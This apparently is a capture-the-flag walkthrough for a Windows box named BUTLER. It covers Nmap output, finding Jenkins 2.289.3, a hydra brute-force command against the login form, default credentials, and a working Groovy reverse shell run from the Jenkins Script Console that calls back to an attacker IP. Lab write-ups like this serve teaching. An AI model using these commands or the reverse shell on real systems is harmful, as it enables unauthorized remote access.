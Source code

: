 ```bash

Host script results:
|_nbstat: NetBIOS name: BUTLER, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:f8:85:5f (Oracle VirtualBox virtual NIC)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-03-07T22:18:28
|_  start_date: N/A
|_clock-skew: 8h59m58s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Mar  7 14:18:44 2024 -- 1 IP address (1 host up) scanned in 172.05 seconds
```

## HTTP

Port 8080:
![[Pasted image 20240307143033.png]]

![[Pasted image 20240307145154.png]]
=> Jenkins Version 2.289.3
URL http://10.0.0.16:8080/error confirms the version

# Exploitation

https://wanderication.medium.com/exploiting-jenkins-advanced-exploitation-tryhackme-662cb12a71bc

Login brute with hydra:
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.0.0.16 -s 8080 http-post-form "/j_spring_security_check:j_username=^USER^&j_password=^PASS^&from=&Submit=Sign+in:Invalid username or password"
```
Nope

Follow with official solution.
# Official solution

Turns out brute-forcing jenkins login was the right path, just the username was wrong.

Username: jenkins
Password: jenkins

Navigate to "Manage Jenkins" -> "Script Console". Searching for "jenkins groovy script reverse shell" on Google gives us as first result: https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76
Change to host to our attacker machine and open a netcat listener to catch the shell:
```groovy
String host="10.0.0.11";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
